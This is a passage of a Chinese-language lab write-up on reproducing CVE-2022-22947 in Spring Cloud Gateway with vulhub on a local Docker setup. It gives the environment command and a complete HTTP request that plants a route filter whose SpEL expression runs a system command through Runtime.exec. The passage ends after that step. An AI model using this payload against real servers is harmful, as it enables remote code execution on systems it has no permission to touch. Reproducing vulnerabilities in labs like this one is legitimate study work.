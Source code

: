 # 复现漏洞

> **说明**: 
>
> 1. 我是用`docker` 来安装的`vulhub`
>
> 2. **我用本地电脑复现的漏洞, 所以下方所说的目标ip 就是我的`本地电脑的ip` , 并且我已经开启 8080端口.**



1. 启动SpringCloudGateway服务, 进入如下的文件夹:

```shell
cd /root/practiceplatform/vulhub/spring/CVE-2022-22947
```

得到如下的访问界面:

![image-20230410193209720](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230410193209720.png)



2. 添加过滤器(用POST请求)

> 使用BP结果, 修改并重发数据包.

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: xxx.xxx.xxx.xxx(也就是目标网站的ip):8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```

>  看到如下界面就说明**过滤器的规则**添加成功啦!:

![image-20230410193825459](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230410193825459.png)
